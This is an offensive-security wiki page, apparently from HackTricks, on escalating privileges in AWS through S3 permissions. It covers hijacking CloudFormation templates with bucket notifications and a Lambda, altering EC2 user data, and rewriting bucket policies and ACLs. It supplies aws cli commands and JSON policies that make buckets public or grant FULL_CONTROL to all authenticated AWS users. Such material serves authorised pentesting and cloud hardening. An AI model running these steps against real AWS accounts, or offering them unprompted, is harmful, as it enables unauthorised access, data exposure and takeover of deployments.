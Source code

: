 # AWS - S3 Privesc

{{#include ../../../banners/hacktricks-training.md}}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

An attacker with those permissions over interesting buckets might be able to hijack resources and escalate privileges.

For example, an attacker with those **permissions over a cloudformation bucket** called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:PutBucketNotification",
        "s3:GetBucketNotification",
        "s3:PutObject",
        "s3:GetObject"
      ],
      "Resource": [
        "arn:aws:s3:::cf-templates-*/*",
        "arn:aws:s3:::cf-templates-*"
      ]
    },
    {
      "Effect": "Allow",
      "Action": "s3:ListAllMyBuckets",
      "Resource": "*"
    }
  ]
}
```

And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![](<../../../images/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **read access** to them might find **sensitive information** on them.\
An attacker with **write access** to them could **modify the data to abuse some service and try to escalate privileges**.\
These are some examples:

- If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutBucketPolicy`

An attacker, that needs to be **from the same account**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.

```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
    "Id": "Policy1568185116930",
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:root"
            },
            "Action":"s3:ListBucket",
            "Resource":"arn:aws:s3:::somebucketname"
        },
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:user/username"
            },
            "Action":"s3:*",
            "Resource":"arn:aws:s3:::somebucketname/*"
        }
    ]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

An attacker could abuse these permissions to **grant him more access** over specific buckets.\
Note that the attacker doesn't need to be from the same account. Moreover the write access

```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

An attacker could abuse these permissions to grant him more access over specific objects inside buckets.

```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

An attacker with these privileges is expected to be able to put an Acl to an specific object version

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

{{#include ../../../banners/hacktricks-training.md}}





